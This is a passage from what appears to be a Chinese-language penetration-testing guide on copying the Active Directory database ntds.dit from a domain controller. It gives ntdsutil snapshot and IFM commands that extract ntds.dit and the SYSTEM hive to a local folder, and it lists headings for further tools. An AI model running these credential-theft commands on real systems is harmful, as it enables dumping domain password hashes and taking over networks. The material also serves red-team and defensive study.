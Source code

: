 复制ntds.dit

```
copy C:\$SNAP_201802270645_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

卸载快照

```
ntdsutil snapshot  "unmount {6e31c0ab-c517-420b-845d-c38acbf77ab9}" quit quit
```

删除快照

```
ntdsutil snapshot  "delete {6e31c0ab-c517-420b-845d-c38acbf77ab9}" quit quit
```



更简单的，用以下命令就可以将ntds.dit和system文件拷贝到c:\temp目录下，也不需要再删除快照

```
ntdsutil.exe "ac i ntds" "ifm" "create full c:\temp" q q
```

![image-20201122174436957](/assets/img/image-20201122174436957.png)



##### **3. vshadow.exe**

##### 4. diskshadow.exe



#### **2. PowerSploit’s Invoke-NinjaCopy**
